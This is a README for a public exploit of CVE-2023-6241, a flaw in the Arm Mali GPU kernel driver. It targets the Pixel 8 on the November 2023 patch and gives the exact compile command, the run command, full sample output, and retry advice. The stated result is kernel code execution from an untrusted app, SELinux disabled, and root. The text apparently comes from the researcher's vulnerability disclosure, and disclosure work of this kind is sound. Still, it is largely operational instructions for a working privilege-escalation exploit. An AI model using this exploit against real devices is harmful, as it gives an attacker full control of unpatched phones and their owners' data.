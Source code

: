 ## Exploit for CVE-2023-6241

The write up can be found [here](). This is a bug in the Arm Mali kernel driver that I reported in November 2023. The bug can be used to gain arbitrary kernel code execution from the untrusted app domain, which is then used to disable SELinux and gain root.

The exploit is tested on the Google Pixel 8 with the Novmember 2023 patch (`UD1A.231105.004`). It needs to be compiled with OpenCL and link with the OpenCL library `libGLES_mali.so`. The library can be found in a Pixel 8 device in `vendor/lib64/egl/libGLES_mali.so` and the OpenCL header files can be found in the KhronosGroup's [OpenCL-headers repository](https://github.com/KhronosGroup/OpenCL-Headers). The specific header that I used was the [v2023.04.17](https://github.com/KhronosGroup/OpenCL-Headers/releases/tag/v2023.04.17) version, although other versions should also work. For reference, I used the following command to compile with clang in ndk-26:

```
android-ndk-r26b/toolchains/llvm/prebuilt/linux-x86_64/bin/aarch64-linux-android34-clang -DSHELL -DCL_TARGET_OPENCL_VERSION=300 -I. -L. mali_jit_csf.c mem_read_write.c mempool_utils.c -lGLES_mali -o mali_jit_csf
```

The exploit needs to be linked to `libGLES_mali.so`. This can be done by setting the `LD_LIBRARY_PATH` to `/vendor/lib64/egl`. The exploit rarely fails and even if it does, it does not normally corrupt or crash the system. So in case it failed, it can be rerun. If successful, it should disable SELinux and gain root.

```
shiba:/data/local/tmp $ LD_LIBRARY_PATH=/vendor/lib64/egl ./mali_jit_csf                                     
mali_fd 3
corrupted_jit_addr 6000001000
kernel success
kernel success
queue kernel
jit_grow addr 6000001000
Size after grow: 22f6
Final grow size: 23c7
keep alive jit_addr 60023d1000
Size after free: 21fd, trim_level 6
writing to gpu_va 6002301000
found reused page 5fffef6000, 0
pgd entry found at index 0 40000899bbc443
overwrite addr : 5ffff00b50 b50
overwrite addr : 5fffb00b50 b50
overwrite addr : 5fff900b50 b50
overwrite addr : 5ffff00714 714
overwrite addr : 5fffb00714 714
overwrite addr : 5fff900714 714
result 50
clean up
```

When running the first time, the exploit sometimes stalled after printing the last `overwrite addr` message. If that happens (stalled for more than 10 seconds, though pausing for a few seconds is normal), then simply kill the exploit and rerun it. It should not stall the second time.

To test it with MTE enabled, follow [these instructions](https://outflux.net/blog/archives/2023/10/26/enable-mte-on-pixel-8/) to enable kernel MTE.
